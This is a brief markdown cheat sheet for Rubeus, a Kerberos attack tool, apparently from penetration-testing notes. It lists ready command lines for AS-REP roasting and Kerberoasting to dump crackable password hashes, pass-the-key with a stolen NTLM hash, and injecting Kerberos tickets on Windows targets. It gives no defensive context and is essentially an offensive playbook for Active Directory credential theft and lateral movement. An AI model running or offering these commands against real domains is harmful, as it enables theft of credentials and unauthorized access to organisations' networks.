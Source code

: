 # Rubeus

## Source

- https://github.com/GhostPack/Rubeus

Review the opsec notes before compiling the program in visual studio. 

## ASREProasting:

chek for users in the current domain:

- Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

## Kerberoasting:

- Rubeus.exe kerberoast /outfile:<output_TGSs_file>

- Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] 

## Pass the key (PTK):

- .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt


## Using the ticket on a Windows target: 

- Rubeus.exe ptt /ticket:<ticket_kirbi_file>